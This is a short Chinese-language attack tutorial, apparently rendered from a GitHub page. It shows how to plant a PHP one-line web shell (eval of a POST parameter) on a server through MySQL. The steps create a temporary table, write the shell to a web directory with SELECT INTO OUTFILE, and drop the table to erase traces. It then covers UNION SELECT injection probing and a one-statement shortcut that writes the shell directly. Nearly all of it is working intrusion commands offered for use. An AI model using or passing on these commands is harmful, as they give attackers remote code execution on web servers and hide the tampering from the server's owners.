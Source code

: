 ## 基本流程

1. `Drop TABLE IF EXISTS temp;`             //如果存在temp就删掉

2. `Create TABLE temp(cmd text NOT NULL);`           //建立temp表，里面就一个cmd字段

3. `Insert INTO temp (cmd) VALUES('<? php eval($_POST[cmd]);?>');`               //把一句话木马插入到temp表

4. `Select cmd from temp into out file 'F:/wwwroot/eval.php';`               //查询temp表中的一句话并把结果导入到eval.php

5. `Drop TABLE IF EXISTS temp;`                      //删除temp(擦屁股o(∩_∩)o...)


-------
不过想想我们在测试PHP的SQL漏洞的时候经常用如下的语句：

/**/UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12/*

然后返回的页面中可能会出现1~12之间的数字。这里加入数字3显示出来了。
如果我们把上面这句改成/**/UNION SELECT 1,2,'zerosoul',4,5,6,7,8,9,10,11,12/*，则返回页面上次显示3的地方会显示zerosoul。
也就是说如果我们的select语句后面不带from table语句的话，我们说查询的数字或字符会直接返回到查询结果里。
既然这样，我们为何还要那么麻烦去建一个表，先导入数据，再导出这样折腾呢。

有了这个思路，上面那一大段到出一句话的SQL代码可以直接简化到一句:

Select '<? php eval($_POST[cmd]);?>' into outfile 'F:/wwwroot/eval.php';

